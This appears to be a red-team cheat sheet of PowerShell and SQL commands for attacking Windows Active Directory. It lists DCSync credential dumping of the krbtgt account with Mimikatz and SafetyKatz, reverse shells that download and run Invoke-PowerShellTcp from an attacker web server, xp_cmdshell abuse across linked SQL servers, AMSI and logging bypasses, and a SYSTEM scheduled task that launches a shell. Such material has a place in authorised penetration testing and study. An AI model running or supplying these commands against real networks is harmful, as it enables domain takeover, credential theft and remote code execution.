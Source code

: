 DCSync:  

```powershell
# Needs DA privs

# Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt"'
# SafetyKatz.exe
SafetyKatz.exe "lsadump::dcsync /user:<domain>\krbtgt" "exit"
```

Invoke-PowerShellTCP.ps1:  

```powershell
# Web Reverse shell
powershell.exe -c "iex (iwr http://172.16.100.137/Invoke-PowershellTcp.ps1 -UseBasicParsing);Invoke-PowerShellTCP -Reverse -IPAddress 172.16.100.137 -Port 443"
```

SQL reverse shell:  

```powershell
# SQL reverse shell
'exec master..xp_cmdshell "powershell iex (New-Object Net-WebClient).DownloadString(''http://172.16.100.137/Invoke-PowershellTcp.ps1'')"'
powershell.exe iex (iwr http://172.16.100.137/Invoke-PowershellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.137 -Port 443


# SQL reverse shell
select * from openquery("192.168.23.25",'select * from openquery("<db-server>",''select @@version as version;exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''''http://192.168.100.X/Invoke-PowerShellTcp.ps1'''')"'')')

# Rev shell using powerup SQL
# Get script block logging bypass, amsi bypass and then reverse shell script
Get-SQLServerLinkCrawl -Instance <sql-instance> -Query 'exec master..xp_cmdshell  ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.138/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/Invoke-PowerShellTcpEx.ps1)"'''
```

Scheduled task reverse shell:  

```powershell
# Make sure powershell script has added call at the end of the file
# Host powershell script in the web server
# Start a listener with powercat
# Ensure firewalls are turned off
schtasks /create /S full.domain.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "<username>" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://<host-ip>/Invoke-PowerShellTcp.ps1''')'"
schtasks /Run /S full.domain.local /TN "<username>"
# Check listener
```
